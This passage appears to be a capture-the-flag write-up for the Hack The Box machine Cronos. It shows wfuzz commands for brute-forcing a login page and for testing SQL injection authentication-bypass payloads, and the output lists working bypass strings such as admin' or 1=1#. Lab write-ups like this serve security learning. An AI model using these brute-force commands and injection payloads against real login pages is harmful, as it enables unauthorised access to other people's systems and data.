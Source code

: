 Visiting http://cronos.htb, we are unable to find much endpoints which could be exploited, but we discover that most of the endpoints that can be accessed redirects to pages related to laravel.

Looking at http://admin.cronos.htb, we find that we are presented with a login page. However, we do not know the correct credentials to login to the site.

## Exploit
### SQL Injection
First, let us bruteforce login with commonly-used username and passwords using WFUZZ but unfortunately, we are unable to find any valid credentials

```
┌──(kali㉿kali)-[~/Desktop]
└─$ wfuzz -c -z file,/usr/share/seclists/Usernames/top-usernames-shortlist.txt -z file,/usr/share/seclists/Passwords/2020-200_most_used_passwords.txt -d "username=FUZZ&password=FUZ2Z" --hc 200 http://admin.cronos.htb
=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================


Total time: 123.0559
Processed Requests: 3400
Filtered Requests: 3400
Requests/sec.: 27.62970
```

Next, let us try to use SQL injection payload to try to authenticate into the site using WFUZZ. Fortunately, this time round, we are able to find some payloads that can authenticate into the site. 

```
┌──(kali㉿kali)-[~]
└─$ wfuzz -c -z file,/home/kali/Desktop/auth_bypass.txt -d "username=FUZZ&password=FUZZ" --hc 200 http://admin.cronos.htb
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                            
=====================================================================

000000046:   302        56 L     139 W      1547 Ch     "admin' or 1=1# - admin' or 1=1#"                                                                                                                  
000000043:   302        56 L     139 W      1547 Ch     "admin'or 1=1 or ''=' - admin'or 1=1 or ''='"                                                                                                      
000000039:   302        56 L     139 W      1547 Ch     "admin' or '1'='1 - admin' or '1'='1"                                                                                                              
000000041:   302        56 L     139 W      1547 Ch     "admin' or '1'='1'# - admin' or '1'='1'#"                                                                                                          
000000037:   302        56 L     139 W      1547 Ch     "admin' # - admin' #"                                                                                                                              

Total time: 3.780672
Processed Requests: 77
Filtered Requests: 72
Requests/sec.: 20.36674
```
